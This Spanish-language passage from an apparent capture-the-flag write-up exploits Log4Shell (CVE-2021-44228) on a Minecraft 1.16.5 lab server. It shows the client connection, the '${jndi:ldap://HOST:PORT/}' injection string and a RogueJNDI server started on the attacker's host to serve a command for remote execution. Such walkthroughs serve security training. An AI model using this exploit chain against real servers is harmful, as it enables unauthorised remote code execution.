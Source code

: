 Se trata de un Minecraft Vanilla 1.16.5 por lo que se ve. La versión 1.16.5 salió precisamente en septiembre de 2020, hace casi 4 años de la publicación de este post.

Exactamente el 9 de diciembre de 2021, se dió a conocer una vulnerabilidad que parecía afectar a **cualquier versión de Minecraft** entre los rangos de la 1.6.5 y la 1.17.1, al utilizar la librería Log4J para el logging tanto del cliente como del servidor, hacía el juego vulnerable al [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228), en su momento varios aprovecharon esto para hackear servidores e incluso hackear a múltiples usuarios de distintos servidores. Al tratarse del servidor Vanilla y la 1.16.5 hay una buena posibilidad de que sea vulnerable a este CVE.

¿Cómo la explotamos? La vulnerabilidad consiste en que el logger del Log4J por defecto puede procesar mensajes especiales encerrados entre `${}`, y uno de ellos da la posibilidad de usar el JNDI (Java Native Directory Interface) para cargar clases externas y ejecutarlas en el contexto de la aplicación Java, por lo que podemos utilizar [RogueJNDI](https://github.com/veracode-research/rogue-jndi) para darle al servidor lo que busca y ejecutar comandos como el usuario del sistema que corre el servidor, pero primero necesitamos conectarnos al servidor de Minecraft.

Hay varios clientes de CLI para esto, el que utilizaremos es el [Minecraft Console Client](https://github.com/MCCTeam/Minecraft-Console-Client) que podemos descargar ya compilado en su sección de releases.

Utilizandolo, lo ajustamos para lo que queremos en su archivo de configuración generado o bien damos los ajustes que nos pide en pantalla y nos conectamos al servidor en cuestión:

```bash
Minecraft Console Client v1.20.4 - for MC 1.4.6 to 1.20.4 - Github.com/MCCTeam
GitHub build 263, built on 2024-04-15 from commit 403284c
Resolving crafty.htb...
Login :
Password(invisible): 
You chose to run in offline mode.
Retrieving Server Info...
Server version : 1.16.5 (protocol v754)
[MCC] Version is supported.
Logging in...
[MCC] Server is in offline mode.
[MCC] Server was successfully joined.
Type '/quit' to leave the server.
> 
```

Ahora, para hacer que el JNDI nos ejecute una clase arbitraria abusando del bug del Log4J debemos simplemente hacer que el logger procese un mensaje con una cadena del estilo `${jndi:ldap://HOST:PORT/}`, pero primero hay que tener corriendo un servidor especializado para procesar estas peticiones JNDI, yo utilizaré RogueJNDI como dije anteriormente

```bash
❯ java -jar RJNDI.jar -c 'ping -n 1 10.10.14.92' -n 10.10.14.92
+-+-+-+-+-+-+-+-+-+
|R|o|g|u|e|J|n|d|i|
+-+-+-+-+-+-+-+-+-+
Starting HTTP server on 0.0.0.0:8000
Starting LDAP server on 0.0.0.0:1389
Mapping ldap://10.10.14.92:1389/o=tomcat to artsploit.controllers.Tomcat
Mapping ldap://10.10.14.92:1389/o=websphere1 to artsploit.controllers.WebSphere1
Mapping ldap://10.10.14.92:1389/o=websphere1,wsdl=* to artsploit.controllers.WebSphere1
Mapping ldap://10.10.14.92:1389/o=websphere2 to artsploit.controllers.WebSphere2
Mapping ldap://10.10.14.92:1389/o=websphere2,jar=* to artsploit.controllers.WebSphere2
Mapping ldap://10.10.14.92:1389/o=groovy to artsploit.controllers.Groovy
Mapping ldap://10.10.14.92:1389/ to artsploit.controllers.RemoteReference
Mapping ldap://10.10.14.92:1389/o=reference to artsploit.controllers.RemoteReference
```
